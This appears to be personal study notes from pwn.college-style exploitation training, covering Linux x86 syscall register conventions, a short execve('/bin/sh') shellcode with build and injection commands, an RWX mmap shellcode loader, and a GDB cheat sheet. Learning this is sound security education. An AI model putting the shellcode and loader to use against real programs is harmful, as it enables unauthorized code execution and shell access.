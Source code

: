 ### Linux system call conventions x86-32 linux

`%eax, %ebx, %ecx, %edx, %esi, %edi, %ebp`

### Linux application call convention x86-64

`%rdi, %rsi, %rdx, %rcx, %r8, %r9`

The kernel interface uses `%rdi, %rsi, %rdx, %r10, %r8 and %r9` (syscalls)

```c
 * 64-bit SYSCALL saves rip to rcx, clears rflags.RF, then saves rflags to r11,
 * then loads new ss, cs, and rip from previously programmed MSRs.
 * rflags gets masked by a value from another MSR (so CLD and CLAC
 * are not needed). SYSCALL does not save anything on the stack
 * and does not change rsp.
 *
 * Registers on entry:
 * rax  system call number
 * rcx  return address
 * r11  saved rflags (note: r11 is callee-clobbered register in C ABI)
 * rdi  arg0
 * rsi  arg1
 * rdx  arg2
 * r10  arg3 (needs to be moved to rcx to conform to C ABI)
 * r8   arg4
 * r9   arg5
 * (note: r12-r15, rbp, rbx are callee-preserved in C ABI)
```

From: https://stackoverflow.com/a/18024743

### compile shellcode

```
.global _start
_start:
.intel_syntax noprefix
	mov rax, 59  # execve
	lea rdi, [rip+binsh]
	mov rsi, 0
	mov rdx, 0
	syscall
binsh:
	.string "/bin/sh"
```

`gcc -nostdlib -static shellcode.s -o shellcode-elf`
`objdump -M intel -o shellcode.elf`
`objcopy --dump-section .text=shellcode-raw shellcode-elf`
`hd shellcode-raw`
`(cat shellcode-raw; cat) | ./bin`

### shellcode loader (JIT)

```c
page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
read(0, page, 0x1000); // read from stdin 0x1000 bytes
((void(*)())page)();
```

#### Trace the syscalls

`strace ./shellcode-elf`

Source: Zardus, pwn.college, https://www.youtube.com/watch?v=715v_-YnpT8

### GDB

`x/nfu <address>`

Print memory:

n: how many units to print (default 1)

f: format character (like print)

u: unit (b: byte, h: half-world (two bytes), w: word (four bytes), g: giant word (eight bytes))

Example: `x/i $rip - get instruction at $rip`

#### Stack

`backtrace` - show callstack

`frame` - select stack frame

#### Watch/Break-points

`watch` - set watchpoint

`break` - set breakpoint

`delete` - delete breakpoint

`clear` - delete all breakpoints

`enable` - enable disabled breakpoint

`disable` - disable breakpoint

#### Stepping into/out of functions

`step` - step into next function

`next` - step out (go to next source line but don't dive into functions)

`finish` - continue until current function returns

`continue` - continue normal execution

#### Arguments and program execution

`set args` - pass args to program

`run` - run program

`kill` - kill the running program

#### Disassembling

`disassemble / disassemble <address>` - disass the current function or given loc

`handle <signal> <options>`

set how to handle signals:
options: - (no)print - print/no a message when signals occur - (no)stop - stop/no the program when signals occurs - (no)pass - pass/no the signal to the program

#### Display information about various

`info args` - print arguments to the function of the current stack frame

`info breakpoints` - print watchpoints and breakpoints

`info display` - print info about displays

`info locals` - print the local variables in the stack frame

`info sharedlibrary` - list all shared libraries

`info signals` - list all signals and how they're currently handled

`info threads` - list all threads

#### Get variable type

`whatis variable_name` - print type of named variable

#### Single instruction stepping

`si` - step into instruction (follow call instructions)

`ni` - step one instruction over

Source: https://sourceware.org/gdb/current/onlinedocs/gdb/Reverse-Execution.html

#### Reverse execution stepping

`reverse-step [count]` - reverse until it reaches start of a different source line

`reverse-stepi [count]` - reverse one mach instruction at a time

`reverse-next [count]` - run backward to the beginning of previous line executed in the innermost stack frame

`reverse-nexti [count]` - execute a single machine instruction in reverse

#### Reverse execution program

`reverse-finish` - takes you to the point where the function was called

`reverse-continue | rc` - beginning at the point where the program last stopped

#### Control execution direction

`set exec-direction [forward|reverse]` - change execution order
